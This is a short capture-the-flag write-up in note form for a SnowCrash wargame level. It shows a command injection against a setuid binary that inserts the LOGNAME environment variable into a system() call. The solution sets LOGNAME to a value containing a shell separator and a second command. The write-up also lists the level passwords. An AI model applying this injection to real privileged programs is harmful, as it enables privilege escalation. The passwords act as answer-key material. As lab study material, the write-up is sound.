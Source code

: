 # Solve Level07
pass : wiok45aaoguiboiki2tuin6ub

## Description
- home
    - -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
        - looks like a binary C file
            - find inside with ```strings level07```
                - system()
                - sprintf()
                - /bin/echo ==> this time it use direct path, changing PATH is useless
                - setresuid
                - getenv ==> use to get an env var ==> here 'LOGNAME'
                - setresguid
            - execute
                - print the name of the current user (level07 in snowCrash kali in my local kali machine)

- LOGNAME env var
    - changing the var change the return value of the program
    - removing the var ```unset LOGNAME``` create an error ==> ```sh: 1: Syntax error: word unexpected (expecting ")")```
        - getenv() return null if nothing is pass [source][df1]
    - ```export LOGNAME="; getflag"```

## Solution
```bash
export LOGNAME="; getflag"
./level07
```

- no flag
- level08 : fiumuikeil55xe9cu4dood66h

## Resolve problem
- be carefull when c program use env var

[df1]: https://koor.fr/C/cstdlib/getenv.wp
